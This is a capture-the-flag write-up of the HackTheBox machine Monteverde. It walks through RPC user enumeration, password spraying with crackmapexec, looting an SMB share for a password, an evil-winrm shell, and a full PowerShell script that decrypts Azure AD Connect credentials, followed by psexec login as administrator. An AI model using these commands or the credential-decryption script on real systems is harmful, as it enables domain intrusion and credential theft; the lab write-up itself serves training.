```yaml
---
layout: single
title:  "HTB - Monteverde Writeup - 10.10.10.172"
date:   2020-06-18 16:49:23 +0100
categories: hackthebox
excerpt: My walkthrough / writeup of the HTB AD machine Monteverde.
---
```

![HTB](/images/monteverde/2020-06-19_14-43.png)

# HackTheBox - Monteverde - 10.10.10.100

Monteverde is a 30 point medium rated machine on hackthebox, that involves using rpcclient with null authentication to pillage domain usernames, then using hydra to use those usernames and usernames as passwords to find valid credentials. Once found we find the password for user `mhope` in a SMB share and we use his credentials to get a shell on the box. Once we are `mhope` we find he is a memeber of the Azure AD Admins groups so we can use a powershell script to decrypt the admin's credentials from the SQL database used by Azure AD Sync.

## 1. Recon 
To start this box off we will do an nmap scan of the target machine, 10.10.10.172  `nmap -sC -sV -oA nmap/monteverde 10.10.10.172` 
### Nmap Scan Results
```
Nmap scan report for 10.10.10.172
Host is up (0.061s latency).
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-24 18:36:21Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/24%Time=5E2B36F6%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 9m22s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-01-24T18:38:12
|_  start_date: N/A
```
Some ports of note here are:
1. RPC - Maybe we can get null authentication 
2. SMB - Maybe some useful files
3. LDAP - ldapquery?

### RPC Enumeration
Firstly we will try to get a connection to rpc with null authentication, using rpcclient: 
`rpcclient -U "" 10.10.10.172` `enumdomusers`
![rpc](/images/monteverde/2020-06-19_14-34.png)

Bingo, now we have a list of users!

## 2. Finding some credentials
Now we have a list of usernames we can try to bruteforce login credentials, using those usernames as passwords, first save the usernames to a file like this:
![usersfile](/images/monteverde/2020-06-19_14-37.png)

We can then use crackmapexec to bruteforce smb logins, if you want to read more about cme then the link to the github page is [here](https://github.com/byt3bl33d3r/CrackMapExec).

If we pass the arguments -u for users file and -p for password file, we can bruteforce logins:

`crackmapexec smb 10.10.10.172 -u usersfile.txt -p passfile.txt`
![cme](/images/monteverde/2020-06-19_14-49.png)
Nice, we got a valid login using the credentials, `SABatchJobs:SABatchJobs`, we can now try to enumerate the smb shares.

## 3. Getting More Credentials

### SMB Enumeration
To list all the smb shares we will use smbclient, which is built into Kali.

`smbclient -U "SABatchJobs" -L \\10.10.10.172`
![shares](/images/monteverde/2020-06-19_14-53.png)

The one share that stands out is the users$, as it is not a default Windows share like SYSVOL or IPC$

Let's try and connect using our credentials
`smbclient -U "SABatchJobs" \\\\10.10.10.172\\users$`
![smb-share](/images/monteverde/2020-06-19_15-01.png)

Nice, we can see the files in the users$ share, lets download all the files and see if there is anything interesting
`prompt OFF`, `recurse ON`, `mget *`
![files](/images/monteverde/2020-06-19_15-04.png)

The only file in the share was an `azure.xml` file, let;s see what's inside
`cat azure.xml`
![epic](/images/monteverde/2020-06-19_15-06.png)

Bingo! We have the password for the user `mhope`.

### Getting User
Now that we have the password for the user `mhope` we can try to login over winrm, for this I will be using a tool called [evil-winrm](https://github.com/Hackplayers/evil-winrm).

`evil-winrm -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$`

![htb](/images/monteverde/user.gif)

## 4. Privesc to Domain Admin

Now that we have a shell we can do some enumeration, firstly, `whoami /all`
![whoami](/images/monteverde/2020-06-19_15-24.png)

We can see we are a part of the azure admins, this means that with the right commands or script we can dump the admin password from the mssql database that Azure AD Connect uses, there is a great article by XPNSec that explains this [here](https://blog.xpnsec.com/azuread-connect-for-redteam/). So if we use the powershell script from the blog but with the connection string changed to work with this DB we should be good. Allternativly I will use a tool made by [fox-it on github](https://github.com/fox-it/adconnectdump), to decrypt the password as I could not get the powershell script to work for me. 

Here is the script the exe is based on:

{% highlight powershell %}
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
{% endhighlight %}

Now if we save the exe and dll from the fox-it github to our local machine, we can upload it using evil-winrm to the box

![upload](/images/monteverde/2020-06-19_15-46.png)

Now if we naviagate to: `C:\Program Files\Microsoft Azure AD Sync\Bin` and run `\Users\mhope\Documents\AdDecrypt.exe -FullSQL` we get the admin credentials

![creds](/images/monteverde/2020-06-19_15-51.png)

Now we can just use these creds to psexec into the box and grab the root flag

## Pwned

`psexec.py megabank/Administrator:"d0m@in4dminyeah!"@10.10.10.172`

![root](/images/monteverde/root.gif)

If you enjoyed my write up or found it useful please check out my htb profile linked below and give a +rep

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)

